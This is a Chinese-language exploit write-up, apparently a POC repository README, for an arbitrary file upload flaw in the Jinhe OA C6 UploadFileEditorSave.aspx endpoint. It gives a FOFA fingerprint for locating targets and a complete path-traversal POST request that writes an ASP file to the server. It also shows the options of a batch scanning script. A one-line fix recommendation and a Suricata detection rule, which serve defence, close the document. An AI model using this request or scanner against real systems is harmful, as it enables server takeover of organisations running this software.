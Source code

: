 ### 产品简介  
金和网络是专业信息化服务商，为城市监管部门提供了互联网+监管解决方案，为企事业单位提供组织协同OA系统升开发平台，电子政务一体化平台智慧电商平合等服务.  

### 漏洞概述  
金和-c6 uploadfileeditorsave 任意文件上传，攻击者可通过此漏洞获取服务器权限。  

### 指纹识别  
fofa: app="金和网络-金和OA"  

### 漏洞利用  
```
poc:
POST /C6/Control/UploadFileEditorSave.aspx?filename=\....\....\C6\qps4cckjuz.asp HTTP/1.1
Host: your_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Connection: close
Content-Length: 191
Content-Type: multipart/form-data; boundary=----9fh1lo9qobtszaiahg6v
Accept-Encoding: gzip, deflate
 
------9fh1lo9qobtszaiahg6v
Content-Disposition: form-data; name="file"; filename="qps4cckjuz.jpg"
Content-Type: image/png
 
<% response.write(111*111)
%>
 
------9fh1lo9qobtszaiahg6v--
 
 
 
http://your_ip/C6/filename参数中的文件名
```
![Image text](https://github.com/YUUKI4O4/POC/blob/main/Jinhe_c6_uploadfileeditorsave_File_Upload_Vulnerability/1.png)  
![Image text](https://github.com/YUUKI4O4/POC/blob/main/Jinhe_c6_uploadfileeditorsave_File_Upload_Vulnerability/2.png)  

### 测试和利用脚本  
```
python3 Jinhe_c6_uploadfileeditorsave_File_Upload_Vulnerability.py -h          
usage: Jinhe_c6_uploadfileeditorsave_File_Upload_Vulnerability.py [-h] [-t] [-r FILE] [-u URL]

### Jinhe OA c6 uploadfileeditorsave interface has an arbitrary file upload vulnerability. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python Jinhe_c6_uploadfileeditorsave_File_Upload_Vulnerability.py -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python Jinhe_c6_uploadfileeditorsave_File_Upload_Vulnerability.py -u
                        http://xxx.xxx.xxx
```

### 修复建议  
1.联系相关软件厂商更新至最新安全版本。  

### Suricata rules  
```
alert http any any -> any any (msg:"Jinhe OA c6 uploadfileeditorsave interface has an arbitrary file upload vulnerability."; flow:established,to_server; content:"post";http_method;nocase; content:"/C6/Control/UploadFileEditorSave.aspx";http_uri;fast_pattern;nocase; content:"filename=\\....\\....\\C6";http_uri;nocase; content:"Content-Type: multipart/form-data";nocase;http_header; content:"Content-Disposition: form-data";nocase;http_client_body; content:"filename=";nocase;http_client_body; content:"<%";nocase;http_client_body;distance:0; pcre:"/filename=.*\.(asp|aspx)/Ui"; reference:url,https://github.com/YUUKI4O4/POC/tree/main/Jinhe_c6_uploadfileeditorsave_File_Upload_Vulnerability; classtype:web-attck; metadata:created_at 2024-1-8,updated_at 2024-1-8,creater:YUUKI4O4; sid:9; rev:1;)
```
